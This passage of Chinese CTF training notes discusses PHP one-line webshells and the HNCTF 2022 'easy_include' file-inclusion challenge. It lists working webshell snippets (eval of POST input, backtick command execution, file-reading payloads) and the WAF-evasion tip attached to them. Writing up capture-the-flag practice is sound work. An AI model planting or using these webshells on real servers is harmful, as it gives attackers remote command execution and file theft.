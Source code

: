 这个是用硬编码的方式直接读取文件中的内容，但我依旧搞不清楚为什么我蚁剑连接的时候返回为空，是被ban了？？？

之后跟选题的师哥聊了下，这题要是一句话木马的话确实会超15的限制，且我的之前的“一句话木马”没有指定请求方式，应该不算是一句话木马（学艺不精了，但是确实学到了知识），这题实际上应该用命令注入就可以，同时我询问了一下ai得到如下知识点的结果

一句话木马有两种主要类型：

1. 需要请求参数的动态木马（常见）：
```php
<?=`$x`?>           // 需要GET/POST参数
<?php eval($_POST[x]); ?>  // 需要POST参数
<?=$_GET[cmd]?>     // 需要GET参数
```


2. 直接执行的静态木马（像你刚才用的）：
```php
BM<?=`tac/f*`;      // 直接执行，不需要参数
BM<?=`ls`;?>        // 直接列目录
BM<?=`cat *`;?>     // 直接读取文件
```


区别：
- 动态木马更灵活，可以执行任意命令
- 静态木马更简单，直接执行固定命令
- 静态木马更容易绕过WAF（因为不需要参数传递）
- 动态木马需要工具（如蚁剑）来管理

所以在特定场景（如CTF）中，有时候直接执行的静态木马反而更有效！

#### [HNCTF 2022 WEEK2]easy_include

进入靶机，给出的部分代码如下：

```php
<?php  
//WEB手要懂得搜索  
  
if(isset($_GET['file'])){    $file = $_GET['file'];  
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){  
        die("error");  
    }  
    include($file);  
}else{    highlight_file(__FILE__);  
}
```

发现这里可以直接进行目录遍历的操作：

![](./imgs/20250122集训_目录穿越.png)
